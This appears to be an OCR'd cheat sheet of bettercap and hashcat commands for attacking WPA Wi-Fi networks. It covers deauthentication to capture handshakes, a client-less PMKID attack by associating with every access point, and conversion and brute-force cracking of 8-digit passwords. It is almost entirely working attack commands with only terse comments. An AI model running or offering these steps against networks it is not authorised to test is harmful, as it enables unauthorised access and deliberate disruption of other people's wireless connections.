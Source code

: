 # Initiate deauth packets

> wifi.deauth e0:xx:xx:xx:xx:xx

# Convert

/path/to/cap2hccapx /root/bettercap-wifi-handshakes.pcap bettercap-wifi-handshakes.hccapx

# Cracking

/path/to/hashcat -m2500 -a3 -w3 bettercap-wifi-handshakes.hccapx '?d?d?d?d?d?d?d?d'

# Client-less PMKID Attack

# PMKID = HMAC-SHA1-128(PMK, "PMK Name" | MAC\_AP | MAC\_STA)

sudo bettercap -iface wlan0

# Start the monitoring mode

> wifi.recon on

# As long as the PMK is constant, we just need to get one to initiate attack

# Instead of deauth others, we will associate to the AP and listen which one

# Send good informations

# wifi.assoc supports 'all' (or `*`) or a specific BSSID, just like wifi.deauth

> wifi.assoc all

# Convert

/path/to/hcxpcaptool -z bettercap-wifi-handshakes.pmkid /root/bettercap-wifi-handshakes.pcap

# Cracking

/path/to/hashcat -m16800 -a3 -w3 bettercap-wifi-handshakes.pmkid '?d?d?d?d?d?d?d?d'